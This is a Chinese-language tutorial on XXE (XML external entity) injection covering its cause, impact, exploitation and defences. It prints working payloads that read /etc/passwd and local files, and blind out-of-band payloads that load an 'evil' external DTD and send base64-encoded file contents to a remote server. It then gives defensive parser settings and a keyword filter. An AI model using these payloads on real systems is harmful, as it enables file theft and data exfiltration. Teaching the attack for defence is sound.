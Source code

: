 ## XXE漏洞原理
XXE漏洞也叫XML外部实体注入。由于没有禁止外部实体的加载,攻击者可以加载恶意外部文件，而应用程序解析输入的XML数据时,解析了攻击者伪造的外部实体导致产生XML漏洞。

## XXE漏洞的危害
（1）读取任意文件</br>
（2）执行系统命令</br>
（3）内网端口扫描</br>
（4）攻击内网其他网站

## XXE漏洞的利用
一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到payload的执行结果或现象，无回显的情况又称为blind xxe，可以使用外带数据通道提取数据。
### （一）有回显的情况
**（1）直接通过DTD外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<abc>&test;</abc>
```
**（2）通过DTD文档引入外部DTD文档，再引入外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://localhost/evil.dtd">
<abc>&b;</abc>
evil.dtd内容：
<!ENTITY b SYSTEM "file:///etc/passwd">
```
**（3）通过DTD外部实体声明引入外部实体声明**</br>
XML内容如下:
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % d SYSTEM "http://localhost/evil.dtd">
%d;
]>
<abc>&b;</abc>
```
evil.dtd内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

### （二）无回显情况，又称blind xxe，使用外带数据通道提取数据
**（1）第一种无回显示payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd; %all;
]>
<abc>&send;</abc>
```
其中evil.xml文件内容为
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost%file;'>">
```
调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用实体send。

**（2）第二种无回显payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd;
%send;
]>
<abc></abc>
```
其中evil.xml文件内容为：
```
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```
调用过程和第一种方法类似，但最里层的嵌套里%要进行实体编码成%。无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。</br>
这里注意参数实体引用%file;必须放在外部文件里，因为根据这条规则 。在内部DTD里，参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则解析器会报错： PEReferences forbidden in internal subset。这里的internal subset指的是中括号[]内部的一系列元素声明，PEReferences 指的应该是参数实体引用 Parameter-Entity Reference 。</br>
一般都使用第二种方法，因为当文件中含有中文字符或<字符，会导致不能解析。

## XXE漏洞的防御
（1）禁用外部实体
```python
# 在php中，引用外部实体和libxml库有关系
# libxml > 2.9 默认不解析外部实体
libxml_disable_entity_loader(true);

# java:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

# python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
（2）过滤和验证用户提交的xml数据，防止出现非法内容；过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC等。
